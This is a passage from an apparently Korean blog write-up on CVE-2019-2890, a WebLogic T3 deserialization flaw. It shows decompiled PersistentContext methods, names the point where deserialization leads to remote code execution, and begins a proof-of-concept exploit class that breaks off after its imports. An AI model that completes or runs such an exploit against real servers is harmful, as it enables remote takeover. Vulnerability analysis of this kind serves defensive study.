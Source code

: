 ```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundExeception {
    this.initTransients();
    
    try {
        this._lock.writeLock().lock();
        this._propertyMap = (Map)var1.readObject();
        this._propBagClassNames = (Set)var1.readObject();
        this._contextPropertyMap = (Map)var1.readObject();
        this._invocationPropertyMap = (Map)var1.readObject();
        this._state = (PersistentContext.State)var1.readObject();
        this.readsubject(var1);
    } finally {
        this._lock.writeLock().unlock();
    }
}
```
직렬화 데이터를 T3 프로토콜로 전송하면 `readObject` 메서드를 이용해서 받아 `readSubject` 메서드로 넘겨주는 것을 볼 수 있습니다.<br>

```java
private void readSubject(ObjectInputStream var1) {
    try{
        int var2 = var1.readInt();
        byte[] var3 = new byte[var2];
        var1.readFully(var3);
        if (KernelStatus.isServer()) {
            var3 = EncryptionUtil.decrypt(var3);
        }
        
        ByteArrayInputStream var4 = new ByteArrayInputStream(var3);
        ObjectInputStream var5 = new ObjectInputStream(var4);
        this._subject = (AuthenticateSubject)var5.readObject();
    } catch (Exception var6) {
        WseeCoreLogger.logUnexpectedException("Couldn't completely read PersistenContext subject", var6);
    }
}
```
직렬화 데이터는 `readObject` 메서드에서 `readSubject` 메서드로 전달해 줘 받게 됩니다. `Line 3 ~ 8`에서 데이터를 읽고, 복호화를 하고, `Line 10 ~ 12`에서 역직렬화를 하는데 바로 이때 RCE가 터집니다.<br>

이로서 우리는 `PersistentContext` 클래스에서는 직렬화한 데이터를 암호화하고, 전송한다는 것을 알고 있습니다. 그렇기 때문 익스플로잇을 하려면 이를 기반으로 POC를 작성해서 직렬화 데이터를 만들어주어야 합니다. 

---
## <span style="color:#21C587"></span> CVE-2019-2890 POC

```java
package weblogic.wsee.jaxws.persistence;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import weblogic.kernel.KernelStatus;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Proxy;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class Poc  {
```
